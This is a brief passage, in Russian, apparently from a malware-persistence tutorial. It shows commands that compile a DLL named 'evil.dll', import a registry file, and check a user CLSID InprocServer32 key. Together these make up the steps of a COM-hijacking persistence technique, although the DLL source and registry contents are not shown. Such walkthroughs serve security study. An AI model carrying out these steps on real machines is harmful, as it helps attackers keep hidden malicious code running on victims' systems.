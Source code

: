Затем просто выполнить компиляцию:

```bash
x86_64-w64-mingw32-g++ -shared -o evil.dll evil.cpp -fpermissive
```

![pers](./images/53/2022-05-02_17-04.png){width="80%"}    

Сохраните reg-файл как `evil.reg`:

![pers](./images/53/2022-05-02_18-22.png){width="80%"}    

Импортируем и снова проверяем реестр:

```powershell
reg import \
C:\...\2022-05-02-malware-pers-3\evil.reg /reg:64
reg query \
"HKCU\Software\Classes\CLSID\
{A6FF50C0-56C0-71CA-5732-BED303A59628}\InprocServer32" \
/s
```

![pers](./images/53/2022-05-02_16-43.png){width="80%"}    
